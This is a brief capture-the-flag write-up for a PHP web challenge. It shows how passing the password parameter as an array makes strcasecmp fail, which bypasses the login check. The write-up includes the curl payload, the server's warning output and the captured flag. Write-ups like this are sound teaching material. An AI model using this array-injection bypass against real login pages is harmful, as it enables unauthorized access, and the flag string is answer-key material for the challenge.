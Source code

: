 # Just Not My Type
Author: ZeroDayTea  
Description: I really don't think we're compatible ([Link](http://143.198.184.186:7000/))

----------------------------------------------------
Exploit in strcasecmp function. Payloads: `curl -F "password[]=a" http://143.198.184.186:7000/`  
=>
``` html
<h1>I just don't think we're compatible</h1>

<br />
<b>Warning</b>:  strcasecmp() expects parameter 1 to be string, array given in <b>/var/www/html/index.php</b> on line <b>9</b><br />
flag{no_way!_i_took_the_flag_out_of_the_source_before_giving_it_to_you_how_is_this_possible}
<form method="POST">
    Password
    <input type="password" name="password">
    <input type="submit">
</form>
```

flag: `flag{no_way!_i_took_the_flag_out_of_the_source_before_giving_it_to_you_how_is_this_possible}`

